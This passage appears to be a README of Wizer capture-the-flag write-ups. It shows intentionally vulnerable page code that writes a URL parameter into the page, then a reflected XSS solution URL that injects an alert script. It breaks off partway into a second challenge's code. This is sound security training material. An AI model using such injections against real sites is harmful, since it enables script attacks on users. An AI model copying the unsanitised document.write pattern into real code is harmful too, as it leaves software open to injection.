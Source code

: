 # Wizer CTF Challenges

<br />

### #0: My First CTF Experience!

**Goal:** Inject an alert("Wizer")

**code:**

```
<html>
<head>
<title> Dashboard </title>
</head>
<body>
<script>
    let startPosition = document.URL.indexOf("role=") + 5;
    let userRole = document.URL.substring(startPosition,document.URL.length); 
    document.write('<h1>' + decodeURI(userRole) + '</h1>');
</script>
</body>
</html>
```

<br />

it is just take whatever the user writes after `role` parameter and print it on the page in `h1` tag

<br />

**Solution:**

```
https://chal0.vercel.app/dashboard.html?role=<script>alert("Wizer")</script>
```



<br /><br />



### **#1: Image Previewer**

**Goal:** Inject an alert("Wizer")

**code:**

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Image preview</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.1/purify.min.js"
            integrity="sha512-TU4FJi5o+epsahLtM9OFRvH2gXmmlzGlysk9wtTFgbYbMvFzh3Cw1l3ubnYIvBiZCC/aurRHS408TeEbcuOoyQ=="
            crossorigin="anonymous" referrerpolicy="no-referrer"></script>
</head>
<body>
    <h1>Preview an image</h1>
    <span id="image"></span>
    <script>
        // Get the image GET parameter
        const queryString = window.location.search;
        const urlParams = new URLSearchParams(queryString);
        const imageParam = urlParams.get('image')

```